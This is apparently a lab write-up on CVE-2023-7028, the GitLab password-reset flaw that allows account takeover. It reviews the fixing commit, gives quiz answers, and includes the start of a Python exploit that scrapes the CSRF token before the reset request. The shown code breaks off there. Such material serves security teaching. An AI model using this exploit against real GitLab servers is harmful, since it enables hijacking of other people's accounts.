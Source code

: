![Reset password request source code view](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/0b1bcaad54f02ef517007536c9ff492f.png)  

To understand how the vulnerability works, let's have a [source code review](https://gitlab.com/gitlab-org/gitlab-foss/-/commit/21f32835ac7ca8c7ef57a93746dac7697341acc0) of the Gitlab 16.1 (CE) stable version commits carried out after 10 Jan 24. We can see that multiple changes have been made in the file's repository. 

![GitLab commit history for version 16.1](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/1d538558a2d7e78e86411f99347ace88.png)  

The code located at `spec/controllers/passwords_controller_spec.rb` was accepting multiple emails as input; however, it lacked the email verification and validation mechanism to confirm if it was associated with the correct user. 

![code edit to accept single mail](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/20ade8839fb7db0e8a139ef10951bdc6.png)  

The attacker only required the **authenticity_token** during form submission and the victim's email address to gain control of the target account.

**What is the name of the field that is sent with a password reset request to prevent CSRF attacks?**
> `authenticity_token`

**What is the HTTP method used while sending password reset requests in GitLab?**
> `POST`


# How to exploit
This is a simple exploit as it only requires an API call to `/users/password` method with the victim and target email address
```python
import requests
import argparse
from urllib.parse import urlparse, urlencode
from random import choice
from time import sleep
import re
requests.packages.urllib3.disable_warnings()

class CVE_2023_7028:
    def __init__(self, url, target, evil=None):
        self.use_temp_mail = False
        self.url = urlparse(url)
        self.target = target
        self.evil = evil
        self.s = requests.session()

    def get_csrf_token(self):
        try:
            print('[DEBUG] Getting authenticity_token ...')
            html = self.s.get(f'{self.url.scheme}://{self.url.netloc}/users/password/new', verify=False).text
            regex = r'<meta name="csrf-token" content="(.*?)" />'
            token = re.findall(regex, html)[0]
            print(f'[DEBUG] authenticity_token = {token}')
            return token
        except Exception:
            print('[DEBUG] Failed ... quitting')
            return None

    def ask_reset(self):
        token = self.get_csrf_token()
        if not token:
            return False

```
